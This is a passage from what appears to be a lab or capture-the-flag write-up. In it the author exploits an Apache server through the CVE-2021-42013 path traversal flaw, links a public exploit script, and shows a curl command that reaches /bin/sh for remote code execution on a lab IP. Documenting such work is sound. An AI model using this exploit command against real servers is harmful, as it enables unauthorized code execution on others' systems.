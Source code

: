 Suspecting a vulnerable Apache version, I searched for related exploits and found **[CVE-2021-42013](https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013#about-cve-2021-42013)** — a known **path traversal + RCE** vulnerability.

![pasted](./Pasted_image_20250503005037.png)

I tested for Local File Inclusion (LFI), which worked, and then moved to Remote Code Execution using [this exploit](https://github.com/sergiovks/LFI-RCE-Unauthenticated-Apache-2.4.49-2.4.50/blob/main/exploit.py):

![pasted](./Pasted_image_20250503005406.png)

Verified RCE with the following `curl` command:

```bash
curl -X POST http://192.168.112.115/cgi-bin/%%32%65%%32%65/.../bin/sh \
  -d 'echo Content-Type: text/plain; echo; id'
```
